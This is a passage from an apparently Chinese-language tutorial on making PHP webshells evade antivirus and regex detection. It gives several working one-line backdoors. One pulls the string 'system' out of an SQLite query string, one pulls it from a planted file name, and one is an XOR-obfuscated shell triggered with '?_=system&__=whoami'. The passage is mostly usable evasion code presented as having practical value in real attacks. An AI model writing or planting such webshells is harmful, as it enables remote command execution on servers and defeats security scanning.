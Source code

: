     
    $path = "数据库文件名"  
    $db = new PDO("sqlite:" . $path);  
    $sql_stmt = $db->prepare('select * from test where name="system"');$sql_stmt->execute();  
    $f = substr($sql_stmt->queryString, -7, 6);$f($_GET['b']);  
    

### 11.3 读取目录

`FilesystemIterator` 是一个迭代器，可以获取到目标目录下的所有文件信息

    
    
    public FilesystemIterator::next ( void ) : void

可以尝试使用 `file_put_contents` 写入一个名为 `system.aabyss` 的空文件，然后遍历目录拿到字符串 `system`
，成功ByPass

  *   *   *   *   *   *   * 

    
    
    $fi = new FilesystemIterator(dirname(__FILE__));$f = '';foreach($fi as $i){    if (substr($i->__toString(), -6,6)=='aabyss')  //判断后缀名为.aabyss的文件（其他特殊后缀也行）        $f = substr($i->__toString(), -13,6);      //从system.aabyss提取出system高危函数}$f($_GET['b']);

为什么要写入为 `system.aabyss` 这个文件名呢，因为特殊后缀能让代码快速锁定文件，不至于提取文件名提取到其他文件了

##

## 12# 多姿势配合免杀

将以上提到的相关姿势，进行多种配合嵌套，实现免杀效果

###

### 12.1 样例一

刚开始看这个样例我还是挺惊讶的，仔细分析了一波，发现还是挺简单的，但重在思路

这个样例使用了异或+变换参数的手法，成功规避了正则匹配式，具有实战意义

  * 

    
    
    <?=~$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);

这时候，就可以执行GET传参：`?_=system&__=whoami` 来执行whoami命令

由8.1讲到PHP中如何异或，我们就先把最前面这部分拆出来看看

  *   *   * 

    
    
    <?=~$_='$<>/'^'{{{{';//即 '$<>/' ^ '{{{{'//即 "$<>/" 这部分字符串与后面 "{{{{" 这部分字符串异或

所以由我们前面所学的知识，加上自己动手实践一下，可以发现异或结果为 `_GET`

所以整个PHP语句解密后，再将 `_` 替换为 `a`，将 `__` 替换为 `b`，则原PHP转化为：

  * 
